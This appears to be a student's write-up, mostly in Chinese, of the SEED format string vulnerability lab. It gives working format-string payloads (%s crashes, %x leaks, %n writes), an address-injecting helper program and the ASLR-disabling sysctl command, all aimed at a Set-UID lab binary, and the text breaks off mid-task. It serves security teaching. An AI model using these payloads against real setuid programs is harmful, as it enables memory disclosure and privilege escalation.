# FormatString

本文作者：[对酒当歌](https://blog.csdn.net/youyouwoxi)、边城

# Pre

### 1、查看这段代码的执行结果，解释%.20d 和%hn 的含义。

```c
main()
{
 int num=0x41414141;

 printf("Before: num = %#x \n", num);
 printf("%.20d%hn\n", num, &num);
 printf("After: num = %#x \n", num);

}
```

```bash
gcc pre.c -o pre
./pre
```



`%.20d`是精度修饰符，应用于整型(%d)，d 表示以十进制形式输出带符号整数，`%.number `格式中，当应用于整型值时，它控制最少打印多少位字符。如果数字不够长，则在前面补 0。所以`%.20d `表示输出长度为 20 的整型量。

`%hn`h 表示按 2 字节短整型量输出，%n 表示将已输出的字符个数放入到变元指向的变量中。获取print函数va_list指针指向的值，视该值为一个内存地址，然后将数据（视为2字节短整型数）写入该地址。写入的数据为printf已经打印出的字符数。此代码为20，十进制为14

### 2、解释 linux 用 root 执行下面这条命令的含义和用途。

```bash
sysctl -w kernel.randomize_va_space=0
```

地址空间随机化ASLR(Address Space Layout Randomization)，缓存区溢出攻击需要知道目标区域的具体内存地址，为了简化实验，这条命令的作用是关闭地址随机保护机制。

- 0 = 关闭

- 1 = 半随机。共享库、栈、mmap() 以及 VDSO 将被随机化。
- 2 = 全随机。除了1中所述，还有heap。

### 3、描述 fprintf、printf、sprintf、snprintf、vprintf 这几个函数的功能和差异。


> `int printf(const char *format, ...); `
>
> printf()函数的挪用式样为: printf("<式样化字符串>"，<参量表>)；
>
> 写入标准输出，printf()函数是式样化输出函数, 一般用于向准则输出设备按规定式样输出消息。printf()是 C 语言标准库函数，用于将格式化后的字符串输出到标 准输出。标准输出，即标准输出文件，对应终端的屏幕。printf()申明 于头文件 stdio.h。正确返回输出的字符总数，错误则返回负值，与此 同时，输入输出流错误标志将被置值，可由指示器 ferror1 来检查输 入输出流的错误标志。字符串常量原样输出，在显示中起提示作用。
> 输出表列中给出了各个输出项，要求格式控制字符串和各输出项在数 量和类型上应该一一对应。其中格式控制字符串是以%开头的字符 串，在%后面跟有各种格式控制符，以说明输出数据的类型、宽度、 精度等。

> `int fprintf(FILE *stream, const char *format, ...); `
>
> 功能：传送格式化输出到一个流/文件中与打印机输出。
>
> 用法： 根据指定的格式(format 字符串)来转换并格式化数据(argument)，然 后将结果输出到参数 stream 指定的流/文件中，直到出现字符串结束 ('\0')为止。fprintf() 只能和 printf() 一样工作。返回值：成功时，返 回输出的字符数，发生错误时返回一个负值。在 LINUX/UNIX 操系统 中成功返回 0，失败返回-1。并置 errno 值.

> `int sprintf(char *str, const char *format, ...); `
>
> 功能：把格式化的数据写入某个字符串缓冲区。
>
> 函数 sprintf()的用法 和 printf()函数一样，只是 sprintf()函数给出第一个参数 str(一般为字 符数组），然后再调用 outtextxy()函数将串里的字符显示在屏幕上。 通常在绘图方式下输出数字时可调用 sprintf()函 数将所要输出的格 式送到第一个参数，然后显示输出。
>
> - str：char型指针，指向将要写入的字符串的缓冲区。
>
> - format：格式化字符串。
>
> - [argument]...：可选参数，可以是任何类型的数据。
>
> 返回值：字符串长度（strlen）

> `int snprintf(char *str, int n, char * format [, argument, ...]); `
>
> 用于将格式化的数据写入字符串。将可变个参数(...)按照format格式化成字符串，然后将其复制到str中
>
> snprintf()可以认为是
> sprintf()的升级版，比 sprintf()多了一个参数，能够控制要写入的字符 串的长度，更加安全，只要稍加留意，不会造成缓冲区的溢出。
>
> - str 为要写入的字符串；
> - n 为要 写入的字符的最大数目，超过 n 会被截断；
> - format 为格式化字符串，与 printf()函数相同；
> - argument 为变量。成功则返回参数 str 字符串长 度，失败则返回-1，错误原因存于 errno 中。
>
> 1. 如果格式化后的字符串长度 < size，则将此字符串全部复制到str中，并给其后添加一个字符串结束符('\0')；
>
> 2. 如果格式化后的字符串长度 >= size，则只将其中的(size-1)个字符复制到str中，并给其后添加一个字符串结束符('\0')，返回值为格式化后的字符串的长度。

> `int vprintf ( const char * format, va_list arg ); `
>
> 送格式化输出到stdout中，将可变参数列表的格式化数据打印到 stdout 将格式指向的 C 字符串写入标准输出（stdout）
>
> 标准库函数vprintf函数与printf函数类似，所不同的是，它用一个参数取代了变长参数表，且此参数通过调用va_start宏进行初始化。同样，vfprintf和vsprintf函数分别与fprintf和sprintf函数类似。
>
> 以 printf 的方式替换任何格式说明符，但使用由 arg 标识的变量参数列表中的元素而不 是附加的函数参数。在内部，函数从 arg 标识的列表中检索参数，就 好像 va_arg 被使用了一样，因此 arg 的状态很可能被调用所改变。 
>
> 在任何情况下，arg 都应该在调用之前的某个时刻由 va_start 初始化， 并且在调用之后的某个时刻，预计会由 va_end 释放。成功后，返回 写入的字符总数。如果发生写入错误，则会设置错误指示符（ferror） 并返回负数。如果在编写宽字符时发生多字节字符编码错误，则将 errno 设置为 EILSEQ，并返回负数。

### 4、认真观看 P8 Format String Vulnerability Lecture

Software Security - Kevin Du - SEED Project - Syracuse University

https://www.bilibili.com/video/BV1v4411S7mv
大概说下视频的内容。

> 格式化字符串攻击：通过引发格式化字符串的错误匹配，攻击者 可以修改一个进程的内存，并最终令程序运行恶意代码。如果这个漏 洞存在于一个以 root 权限运行的程序，攻击者就可以利用该漏洞来 获取 root 权限。格式化字符串漏洞能造成各种后果，如使程序崩溃， 窃取程序的密码数据，修改程序内存，使程序运行攻击者的恶意代码等。

> 以printf函数为例详细解释了漏洞的成因，并通过几个实验加深对此漏洞的理解。格式化字符串漏洞的成因是格式规定符和可变参数的数目不匹配。对每个格式规定符，printf()函数都会从栈中获取一个变量。如果格式规定符的数目超过栈中参数的实际数目，printf()函数将不知不觉地越过栈帧，把栈中的其他数据当作自己的参数。printf()函数可以读取或者写入数据到参数中。如果printf()函数访问的内存不属于它的栈帧，可能会输出程序的隐私数据;更糟糕的是，printf()函数还可以修改程序的内存。在格式化字符串攻击中，攻击者有机会为特权程序提供格式化字符串的内容。通过精心构造格式化字符串，攻击者能令目标程序重写函数的返回地址，当函数返回时，它会跳转到攻击者放置恶意代码的位置。为了避免这类漏洞，开发者应该避免让不受信任的用户影响格式化字符串的内容。操作系统和编译器也已采用了一些机制来纠正或者检测潜在的格式化字符串漏洞。

# Lab

> 格式字符串vUl nerability是由printf（用户输入）等代码引起的，其中用户输入的变量的内容用户提供。当此程序使用权限（例如，Set-UID程序），此打印机声明变得危险，因为它可能导致以下后果之一：
>
> 1. 使程序崩溃
> 2. 从内存中任意位置读取
> 3. 修改内存中任意地方的值。这非常危险，因为它可以允许用户修改内部变量特权程序，从而改变程序的行为。
>
> 在这个实验室中，将获得具有格式字符串漏洞的程序；接下来的任务是利用漏洞。除了攻击之外，还可以创造一种可用于击败这种攻击的保护方案。

## 提示

#### 1、什么是格式字符串？

```c
printf ("The magic number is: %d\n", 1911);
```

要打印的文本是"T`he magic number is:`"，后跟格式参数'`%d`'，该参数在输出中替换为参数（1911）。因此，输出如下所示：`The magic number is: 1911`。除了 %d 之外，还有其他几个格式参数，每个参数都有不同的含义。下表总结了这些格式参数：

| 参数 | 含义 | 传递为 |
| ---- | ---- | ------ |
|%d |十进制 (int)| value|
|%u| 无符号十进制 (unsigned int) | value|
|%x| 十六进制(unsigned int) |value|
|%s |字符串((const) (unsigned) char \*) |reference|
|%n |到目前为止写入的字节数, (\* int)| reference|

#### 2、堆栈和格式字符串

格式化函数的行为由格式字符串控制。该函数检索参数由堆栈中的格式字符串请求。

```bash
printf ("a has value %d, b has value %d, c is at address: %08x\n",a, b, &c);
```



#### 3、万一出现不匹配怎么办？

如果格式字符串和实际参数之间不匹配怎么办？

```bash
printf ("a has value %d, b has value %d, c is at address: %08x\n", a, b);
```

- 在上面的示例中，格式字符串要求提供 3 个参数，但程序实际上只提供了两个（即 a 和 b）。
- 这个程序可以通过编译器吗？
  - 函数 printf() 被定义为具有可变参数长度的函数。因此，通过查看参数的数量，一切看起来都很好。
  - 要找到不匹配，编译器需要了解 printf() 的工作原理以及格式字符串的含义。但是，编译器通常不会进行这种分析。
  - 有时，格式字符串不是常量字符串，它是在程序执行过程中生成的。因此，在这种情况下，编译器无法找到未匹配项。
- printf() 可以检测到不匹配吗？
  - 函数 printf() 从堆栈中获取参数。如果格式字符串需要 3 个参数，它将从堆栈中获取 3 个数据项。除非堆栈标有边界，否则 printf() 不知道它用完了提供给它的参数。
  - 由于没有这样的标记。printf() 将继续从堆栈中获取数据。在不匹配的情况下，它将获取一些不属于此函数调用的数据。
- 当 printf() 开始获取它所需要的数据时，它会引起什么问题？

#### 4、查看在任何位置的内存

- 我们必须提供内存的地址。但是，我们无法更改代码：我们只能提供格式字符串。
- 如果我们在没有指定内存地址的情况下使用 printf(%s)，那么 printf() 函数无论如何都会从堆栈中获取目标地址。该函数维护一个初始堆栈指针，因此它知道参数在堆栈中的位置。
- 观察：格式字符串通常位于堆栈上。如果我们可以在格式字符串中对目标地址进行编码，那么目标地址将在堆栈中。在以下示例中，格式字符串存储在位于堆栈上的缓冲区中。

```c
int main(int argc, char *argv[])
{
  char user_input[100];
  ... ... /* other variable definitions and statements */
  scanf("%s", user_input); /* getting a string from user */
  printf(user_input); /* Vulnerable place */
  return 0;
}
```

- 如果我们可以强制 printf 从格式字符串（也在栈上）获取地址，我们就可以控制地址。

```c
printf ("\x10\x01\x48\x08 %x %x %x %x %s");
```

- `\x10\x01\x48\x08` 是目标地址的四个字节。在 C 语言中，字符串中的 \x10 告诉编译器将十六进制值 0x10 放在当前位置。该值将只占用一个字节。不使用\x，如果我们直接将“10”放在一个字符串中，就会存储字符“1”和“0”的ASCII值。它们的 ASCII 值分别为 49 和 48。
- %x 使堆栈指针移向格式字符串。
- 如果 user_input[] 包含以下格式字符串，攻击的工作方式如下：

```c
"\x10\x01\x48\x08 %x %x %x %x %s"
```



- 基本上，我们使用四个 %x 将 printf() 的指针移向我们存储在格式字符串中的地址。一旦我们到达目的地，我们将把 %s 交给 print()，让它打印出内存地址 0x10014808 中的内容。函数 printf() 会将内容视为字符串，并打印出字符串，直到到达字符串的末尾（即 0）。
- user_input[] 和传递给 printf() 函数的地址之间的堆栈空间不适用于 printf()。但是，由于程序中的格式字符串漏洞，printf() 将它们视为与格式字符串中的 %x 匹配的参数。
- 这种攻击的关键挑战是计算 user_input[] 和传递给 printf() 函数的地址之间的距离。这个距离决定了在给出 %s 之前需要在格式字符串中插入多少个 %x。

#### 5、将整数写入内存

- %n：到目前为止写入的字符数存储在相应参数指示的整数中。

```c
int i;
printf ("12345%n", &i);
```

- 它使用 printf() 将 5 写入变量 i。
- 使用与在任何位置查看内存相同的方法，我们可以让 printf() 将整数写入任何位置。只需将上例中的 %s 替换为 %n，地址 0x10014808 处的内容就会被覆盖。
- 使用此攻击，攻击者可以执行以下操作：
  - 覆盖控制访问权限的重要程序标志
  - 覆盖堆栈上的返回地址、函数指针等。
- 但是，写入的值取决于在达到 %n 之前打印的字符数。真的可以写任意整数值吗？
  - 使用虚拟输出字符。要写入 1000 的值，只需填充 1000 个虚拟字符即可。
  - 为了避免长格式字符串，我们可以使用格式指示符的宽度规范。

#### 6、printf（） 如何访问可选参数

```c
#include <stdio.h>
int main()
{
    int id = 100, age = 25;
    char *name = "Bob Smith";
    printf("ID: %d, Name: %s， Age: %d\n", id, name, age);
}
```

> 这里，printf（） 有三个可选参数。以"%"开头的元素称为format specifiers
>
> printf（）扫描格式字符串并打印出每个字符，直到遇到"%"
>
> printf（）调用va_arg（），它返回va_list所指向的可选参数并将其推进到下一个参数。

> - 调用 printf（） 时，参数将按相反的顺序推送到堆栈上。
>
> - 当它扫描并打印格式字符串时，printf（） 将 %d 替换为第一个可选参数中的值，并打印出value
>
> - va_list然后移动到位置 2。
>
> 

> - va_arg（） 宏无法理解它是否到达了可选参数列表的末尾。
> - 它继续从堆栈中获取数据并推进指针va_list。
>
> 

## 任务1：利用漏洞

> 下面的程序需要你提供输入，该输入将保存在调用的缓冲区`user_input`中。然后，程序使用printf打印出缓冲区。该程序是SET-UID程序（所有者是root），即它与root权限运行。不幸的是，有一种格式字符串漏洞以如何在用户输入上调用Printf的方式。我们希望利用此漏洞，看看我们能造成多大的伤害。
>
> 该程序有两个存储在其内存中的秘密值，并且您对这些秘密值感兴趣。但是，秘密值对您来说是未知的，您也无法识别它们读取二进制代码（为了简单起见，我们使用常量0x44和0x55来标记秘密。但在实践中，虽然您不知道秘密，但找出他们的内存地址（范围或确切值）并不难，因为他们是连续地址。因为对于许多操作系统，地址是与运行该程序的任何时候完全相同。
>
> 在这个实验室中，我们只是假设你已经知道了确切的地址。为实现这一目标，程序“故意”打印出您的地址。用这样的知识，您的目标是实现以下内容（不一定在同时）：
>
> - 崩溃程序
> - 打印出secret[1]值
> - 修改secret[1]值
> - 将secret[1]值修改为预先确定的值
>
> 请注意，程序的二进制代码（Set-UID）只能由您读取/执行，并且无法修改代码。也就是说，您需要在不修改易受攻击的代码的情况下实现上述目标。但是，您确实有源代码的副本，这可以帮助您设计攻击。

```c
/* vul_prog.c */

#include<stdio.h>
#include<stdlib.h>

#define SECRET1 0x44
#define SECRET2 0x55

int main(int argc, char *argv[])
{
    char user_input[100];
    int *secret;
    int int_input;
    int a, b, c, d; /* other variables, not used here.*/
    
    /* The secret value is stored on the heap */
    secret = (int *) malloc(2*sizeof(int));
    
    /* getting the secret */
    secret[0] = SECRET1; secret[1] = SECRET2;
    
    printf("The variable secret's address is 0x%8x (on stack)\n", (unsigned int)&secret);
    printf("The variable secret's value is 0x%8x (on heap)\n", (unsigned int)secret);
    printf("secret[0]'s address is 0x%8x (on heap)\n", (unsigned int)&secret[0]);
    printf("secret[1]'s address is 0x%8x (on heap)\n", (unsigned int)&secret[1]);
    
    printf("Please enter a decimal integer\n");
    scanf("%d", &int_input);  /* getting an input from user */
    printf("Please enter a string\n");
    scanf("%s", user_input); /* getting a string from user */
    
    /* Vulnerable place */
    printf(user_input);
    printf("\n");
    
    /* Verify whether your attack is successful */
    printf("The original secrets: 0x%x -- 0x%x\n", SECRET1, SECRET2);
    printf("The new secrets:      0x%x -- 0x%x\n", secret[0], secret[1]);
    return 0;
}
```

> 提示：从打印输出中，您会发现 secret[0] 和 secret[1] 位于堆上，即实际机密存储在堆中。我们还知道，第一个密钥的地址（即变量密钥的值）可以在堆栈上找到，因为变量密钥是在堆栈上分配的。换句话说，如果你想覆盖secret[0]，它的地址已经在堆栈上了；格式字符串可以利用此信息。
>
> 但是，尽管 secret[1] 紧跟在 secret[0] 之后，但其地址在堆栈上不可用。这给格式字符串漏洞带来了重大挑战，它需要在堆栈上具有正确的地址才能读取或写入该地址。

### 崩溃程序

> - 使用输入： %s%s%s%s%s%s%s%s printf（） 解析格式字符串。
>
> - 对于每个 %s，它获取一个值，其中va_list指向并va_list前进到下一个位置。
>
> - 当我们给出 %s 时，printf（） 将值视为地址，并从该地址获取数据。如果该值不是有效的地址，则程序崩溃。

```bash
gcc -o vul vul_prog.c
sudo chown root vul
sudo chmod 4755 vul
```

编译并设置成root所有的set-uid程序



执行程序，输入若干个%s字符

```bash
./vul

%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
```



程序崩溃，原因是用%s输出地址中的值时，保存在栈中值并不都是合法地址，可能是0，指向受保护内存的地址或者没有映射到物理地址的虚拟地址。当程序试图从一个非法地址获取数据时，程序将崩溃。

### 打印出secret[1]值

> - 假设堆栈上的变量包含一个秘密（常量），我们需要将其打印出来。
> - 使用用户输入：%x%x%x%x%x%x%x
> - printf（） 打印出va_list指针所指向的整数值，并将其前进 4 个字节。
> - %x 的数目由va_list指针的起点与变量之间的距离决定。它可以通过反复试验来实现。

先用试错法，随机输入一个数。从结果看，secret[1]的地址在第 9个%x。

```bash
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
```



以我们只要把秘密信息的地址转化为十进制整数输入，再将第9个%x换为%s即可将该位置的秘密信息输出。

84D 200C = 139272204

```
%x.%x.%x.%x.%x.%x.%x.%x.%s
```



U 的 ascii 码就是 55，说明我们已经将 secret[1]的值成功输出。

### 修改secret[1]值

> %n：将到目前为止打印出来的字符数写入内存
>
> printf（"hello%n"，&i） ⇒ 当 printf（） 到达 %n 时，它已经打印了 5 个字符，因此它将 5 个字符存储到提供的内存地址。
>
> %n 将va_list指针所指向的值视为内存地址并写入该位置。
>
> 因此，如果我们想将值写入内存位置，我们需要在堆栈上具有它的地址。

因为 secret[1]的地址已经在栈中，所以可以直接修改它的值。

%n表示该符号前输入的字符数量会被存储到对应的参数中去。在访问任意地址内存的时候，我们可以将一个数字写入指定的内存中。只要将上一小节的 %s 替换成 %n 就能够覆盖原地址的内容。此外将%x更改为%10x，规定不足八位左补空格。

```
%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%n
```



前面 8 个%.8x 已经打印了 8*8=64 个字符，而 0x40 就是十进制的 64， 所以 secret[1]的值修改成功。 

### 修改 secret[1]为指定值

修改 secret[1]为6666 = 26214 ，即十六进制的1A0A。
26214-56 = 26158

```
%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.26158x%n

%8x%8x%8x%8x%8x%8c%8x%26158x%n
```





## 任务 2：内存随机化

> 如果第一个 scanf 语句（`scanf（"%d"，int_input）`）不存在，即程序不要求您输入整数，则任务 1 中的攻击对于那些已实现地址随机化的操作系统来说变得更加困难。注意秘密[0]（或秘密[1]）的地址。当您再次运行该程序时，您会得到相同的地址吗？
> 引入地址随机化以使许多攻击变得困难，例如缓冲区溢出，格式字符串等。为了理解地址随机化的想法，我们将在此任务中关闭地址随机化，并查看对先前易受攻击的程序（没有第一个scanf语句）的格式字符串攻击是否仍然很困难。您可以使用以下命令关闭地址随机化（请注意，您需要以 root 用户身份运行它）：
>
> ```c
> sysctl -w kernel.randomize_va_space=0
> ```
>
> 关闭地址随机化后，您的任务是重复任务 1 中描述的相同任务，但您必须从易受攻击的程序中删除第一个 scanf 语句（`scanf（"%d"，int input）`）。
>
> 如何让scanf接受任意数字？通常，scanf 将暂停以键入输入。有时，您希望程序采用数字0x05（而不是字符"5"）。然而，当您在输入端键入"5"时，scanf实际上会接收ASCII值"5"，这是0x35，而不是0x05。难点在于，在 ASCII 中，0x05不是典型字符，因此我们无法键入此值。解决此问题的一种方法是使用文件。我们可以很容易地编写一个C程序，将0x05（再次强调，不是"5"）存储到一个文件中（让我们称之为mystring），然后我们可以运行易受攻击的程序（让我们称之为a.out），其输入被重定向到mystring；也就是说，我们运行"`a.out < mystring`"。这样，scanf 将从文件 mystring 而不是从键盘获取其输入。

```c
/* write_string.c */

#include <sys/types.h>
#include <stdio.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

int main()
{
    char buf[1000];
    int fp, size;
    unsigned int *address;

    /* Putting any number you like at the beginning of the format string */
    address = (unsigned int *)buf;
    *address = 0x804b01c;

    /* Getting the rest of the format string */
    scanf("%s", buf + 4);
    size = strlen(buf + 4) + 4;
    printf("The string length is %d\n", size);

    /* Writing buf to "mystring" */
    fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
    if (fp != -1)
    {
        write(fp, buf, size);
        close(fp);
    }
    else
    {
        printf("Open failed!\n");
    }
}

```

关闭地址随机化：

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

删除 vul_prog.c 中第一个 scanf 语句，编译 vul_prog.c 并赋予 set-uid 权限。

```
gcc -o vul vul_prog.c
sudo chown root vul
sudo chmod 4755 vul
```



运行两次 vul 



发现 secret[1]的地址没有改变，说明已经关闭了地址随机化。

而地址中含有 0x0c 这个特殊字符，这会导致 scanf 这些特殊字符之后将停止读取任何内容。所以要在 vul_prog.c 中加入一条 malloc 语句，修改其地址。

故vul_prog.c文件变化为17行**malloc再复制**一行，28行第一个sacnf注释掉

```c
...
    
    /* The secret value is stored on the heap */
    secret = (int *) malloc(2*sizeof(int));
    secret = (int *) malloc(2*sizeof(int));
    
...
    printf("Please enter a decimal integer\n");
    //scanf("%d", &int_input);  /* getting an input from user */
    printf("Please enter a string\n");
    scanf("%s", user_input); /* getting a string from user */
...
```

```bash
gcc -o vul vul_prog.c
sudo chown root vul
sudo chmod 4755 vul
```


该地址已经符合要求。 编写 write_string.c 程序，将上述地址赋值给 address 的前 4 个字节（17行）。

```c
/* write_string.c */

#include <sys/types.h>
#include <stdio.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

int main()
{
    char buf[1000];
    int fp, size;
    unsigned int *address;

    /* Putting any number you like at the beginning of the format string */
    address = (unsigned int *)buf;
    *address = 0x804b01c;

    /* Getting the rest of the format string */
    scanf("%s", buf + 4);
    size = strlen(buf + 4) + 4;
    printf("The string length is %d\n", size);

    /* Writing buf to "mystring" */
    fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
    if (fp != -1)
    {
        write(fp, buf, size);
        close(fp);
    }
    else
    {
        printf("Open failed!\n");
    }
}
```

编译 write_string.c

```bash
sudo sysctl -w kernel.randomize_va_space=0

gcc write_string.c -o write
```



### 崩溃程序

```bash
./write

%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s


./vul < mystring
```



### 打印出secret[1]值

```bash
./write

%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.

./vul < mystring
```



在第 10 个位置，因此可将第 10 个%x 改为%s

```bash
./write

%x.%x.%x.%x.%x.%x.%x.%x.%x.%s

./vul < mystring
```



成功显示 secret[1]的值。

### 修改secret[1]值

```bash
./write

%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%n

./vul < mystring
```



0x4c 即十进制的 76，因为 9*8+4=76。

### 修改 secret[1]为指定值

修改 secret[1]为6666 = 26214 ，即十六进制的1A0A。
26214 -（8*8+4） = 26146

```
./write

